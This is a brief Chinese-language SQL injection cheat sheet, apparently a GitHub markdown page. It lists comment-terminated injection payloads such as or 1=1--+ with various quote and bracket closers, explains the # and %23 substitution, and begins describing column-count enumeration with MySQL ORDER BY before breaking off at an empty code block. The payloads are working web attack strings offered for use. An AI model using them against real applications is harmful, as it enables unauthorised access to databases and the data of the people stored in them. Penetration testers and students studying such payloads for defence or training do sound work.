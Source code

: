 # SQL注入
1.**常用的注释payload**
	or 1=1--+
	'or 1=1--+
	"or 1=1--+
	)or 1=1--+
	')or 1=1--+
	") or 1=1--+
	"))or 1=1--+
	--+ 可以用#替换，url 提交过程中 Url 编码后的#为%23
2. **查询字段数目**
查询字段数目主要利用MySQL里面的 order by 来判断字段数目，order by一般采用数学中的对半查找来判断具体的字段数目
```
```
 